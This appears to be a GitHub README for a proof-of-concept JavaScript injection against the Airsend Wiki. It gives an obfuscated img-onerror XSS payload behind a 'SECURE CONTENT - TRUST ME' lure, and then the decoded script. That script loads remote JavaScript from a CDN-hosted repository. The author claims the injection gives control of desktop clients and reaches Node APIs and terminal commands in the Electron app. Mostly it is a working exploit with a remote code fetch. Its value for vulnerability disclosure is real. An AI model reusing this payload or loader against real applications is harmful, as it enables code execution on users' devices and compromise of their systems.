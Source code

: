 # Just a repo to hold the js file to test js injection


For testing purposes I encoded the url to this script hosted here on a image tag and inserted in a index in Airsend Wiki.

```
## SECURE CONTENT - TRUST ME
<img src=x onerror=eval(String.fromCharCode(99,111,110,115,116,32,106,115,32,61,32,100,111,99,117,109,101,110,116,46,99,114,101,97,116,101,69,108,101,109,101,110,116,40,39,115,99,114,105,112,116,39,41,59,32,106,115,46,116,121,112,101,32,61,32,39,116,101,120,116,47,106,97,118,97,115,99,114,105,112,116,39,59,32,106,115,46,115,114,99,32,61,32,39,104,116,116,112,115,58,47,47,99,100,110,46,115,116,97,116,105,99,97,108,108,121,46,105,111,47,103,104,47,109,105,99,104,101,108,100,112,99,97,114,108,111,115,47,97,105,114,115,101,110,100,45,106,115,45,105,110,106,101,99,116,105,111,110,45,112,111,99,47,53,48,98,50,57,99,56,57,98,50,56,55,55,50,53,97,98,53,52,49,55,51,50,101,101,98,54,98,54,53,51,98,51,99,54,50,54,48,50,102,47,105,110,100,101,120,46,106,115,39,59,32,100,111,99,117,109,101,110,116,46,98,111,100,121,46,97,112,112,101,110,100,67,104,105,108,100,40,106,115,41,59))>
```



## Decoded onerror content
```
// Using a cdn to provide static js from github with the correct MIME type
const js = document.createElement('script'); js.type = 'text/javascript'; js.src = 'https://cdn.statically.io/gh/micheldpcarlos/airsend-js-injection-poc/50b29c89b287725ab541732eeb6b653b3c62602f/index.js'; document.body.appendChild(js);
```


# Result
The script is loaded and the attacker gain control over any device running on desktop, if on Electron app we gain control over node apis and gain system control, even runnig a terminal command.

Tests using ios mobile didn't show any issue.

<img width="1912" alt="image" src="https://user-images.githubusercontent.com/29731180/155525895-6c7b57c7-7697-4a5a-9819-b7bf8f8e27db.png">






